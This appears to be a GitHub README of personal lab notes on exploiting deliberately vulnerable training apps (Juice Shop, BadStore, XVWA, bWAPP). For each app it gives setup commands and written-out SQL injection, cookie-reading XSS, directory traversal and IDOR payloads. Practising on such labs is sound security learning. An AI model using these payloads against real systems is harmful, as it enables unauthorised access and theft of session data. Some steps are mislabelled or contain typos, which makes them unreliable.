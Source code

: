 # mikeryan_vuln

install docker 

https://docs.docker.com/engine/install/debian/


[if there is an error like docker already running 

then run command 
sudo docker stop (container_name)

if required 
sudo docker rm (conatiner_name) ]


1) Juice Shop 

	install docker 

	sudo docker pull bkimminich/juice-shop
	sudo docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop


Vulnerability 

	1) in url add: 
 	    localhost:3000/#/administration

	2) inside login 
	for username give 'OR 1=1-- and password anything

	3) go to inspect
	 add script inside div tag class="cdk-live-announcer-eleme cdk-visually-hidden"
	<img rc="invalid_image" onerror="alert('XSS')">

	4) Directory Traversal 
	http://localhost:3000/ftp

	5) Information Disclosure (API Data)
	curl -X POST http://localhost:3000/api/export-data -d "user_id=1234"

	info got in output

	Framework Info:Express.js
	Third-Party Libraries: Libraries like morgan
	File Paths and Line Numbers: Exposes internal paths, such as 
	/juice-shop/build/routes/angular.js, revealing where the error occurred in the 
	app.
	

if required
	sudo docker stop juice-shop
	sudo docker rm juice-shop



2) BadStore

	sudo docker pull jvhoof/badstore-docker
	sudo docker run -d -p 80:80 jvhoof/badstore-docker

	http://localhost

vulnerability 

     1) in search bar add 

        <script>alert('XSS')</script>

         you will get xss

	2)  in search bar add
	<script>alert(0)</script>
 
	you will get pop up showing reflected XSs

	3) in supplier login 
	within email address add payload 

	1’ or ‘1’=’1-- -  
	or 
	admin

	you will be able to login as a supplier 

	3) Click on supplier contract and it will download the contract without you being 	an authenticated supplier ie. you have not logged in as supplier yet 

	4) in browser url add

	http://localhost/cgi-bin/badstore.cgi?action=admin

	u will directly log in as admin and showing BAC

	5)  in terminal , information disclosure for server used

	curl -I http://localhost/cgi-bin/badstore.cgi

	6) SQL injection , found all available products 
	http://localhost/cgi-bin/badstore.cgi?action=search&search&query=1'OR'1'='1





3) XVWA


download iso file 
https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/


run the iso file on vm ware 
once open xvwa 

ifconfig on xvwa machine 

using that ip , on kali browser
do 
http://192.168.71.132/xvwa/


vulnerability 

	1) server side template injection 

	there add <script>alert(0)</script>

	2) in sql injection 

	add in search 1 or ' , and submit it will give error based output (reason upto)

	3) insecure object reference 

	in url item=some one number in range 1 to 5 
	but we give more than 5 still it take as input and display output 
	so first select item and submit , then change url 

	http://192.168.71.132/xvwa/vulnerabilities/idor/?item=7

	4) created a vulnerable payload using gedit or nano (eg add script to it)

	go to unrestricted file upload and upload image 
	no intput sanitisation 

	5) login using username pass admin and admin 
	then go to missing access control and you can delete select options

	then logout 
	and again go to missing access control there select an option 
	click on view 
	and on url change action=view to action=delete



4) BWAPP


docker pull raesene/bwapp
docker run -d -p 8080:80 raesene/bwapp

in browser 

http://localhost:8080/install.php

Login to bwapp
Username:bee
Password:bug

Find the vulnerabilities

	1) Sql injection(get search)

	‘OR 1==1—
	click search you will get , error based , click search again 

	2) Cross site scripting

	Select html injection (reflected)
	
	Then in frst and last name u add payload
	First name=<script>alert(document.cookie);</script>
	Last name=<img src=x onerror=alert(document.cookie)>
	Right click on page – view source page [check for script you have injected]

	3) information disclosure
	Select information disclosure-php version

	4) curl -I http://localhost:8080/login.php

	5) directory traversal-
	directories u select under a7 and press hack
	http://localhost:8080/directory_traversal_2.php?directory=documents
	
	remove documents and add =../
	Payload=http://localhost:8080/directory_traversal_2.php?directory=../

	6) oldbackup and unreferred file under a5
	
	Just change the url
	localhost:8080/sm_obu_files.php
	smo_obu_files.php change to backdoor.php

	





	 


                         

